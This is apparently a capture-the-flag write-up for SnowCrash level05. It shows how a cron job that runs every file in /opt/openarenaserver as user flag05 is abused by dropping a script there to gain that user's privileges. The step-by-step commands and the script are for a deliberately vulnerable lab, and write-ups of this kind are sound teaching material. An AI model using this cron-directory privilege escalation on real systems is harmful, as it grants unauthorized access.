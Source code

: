 # LEVEL 05

Once logged as level05, a message is telling that we have an mail.
> You have new mail.

with the help of the command `find / -name mail 2>/dev/null` we can see a folder "mail" that contains a file "level05"

```
level05@SnowCrash:~$ find / -name mail 2>/dev/null
/usr/lib/byobu/mail
/var/mail
/var/spool/mail
/rofs/usr/lib/byobu/mail
/rofs/var/mail
/rofs/var/spool/mail

level05@SnowCrash:~$ cat /var/mail/level05
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```
The most interesting here is the level05 file, obviously.

It seems to contains an asynchronous job. so after somes research there is a package in Linux that works with cron jobs named `cron` and `crontab`

```
# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
# *  *  *  *  *  user command to be executed
```

```
level05@SnowCrash:~$ cat /usr/sbin/openarenaserver
#!/bin/sh

for i in /opt/openarenaserver/* ; do
        (ulimit -t 5; bash -x "$i")
        rm -f "$i"
done
```

looking at the script, 
it is running a loop that execute a bash /opt/openarenaserver/file.sh, then remove them

so if we put a script inside /opt/openarenaserver/ it will be executed with flag05 perms, here is the elevating privilege vulnerability
```
level05@SnowCrash:~$ echo 'getflag > /tmp/flag.txt' > /opt/openarenaserver/getmyflag.sh
```
then after waiting less than 2minutes

```
level05@SnowCrash:~$ cat /tmp/flag.txt
Check flag.Here is your token : xxxxxxxxxxxxxxxxxxxxxxx
```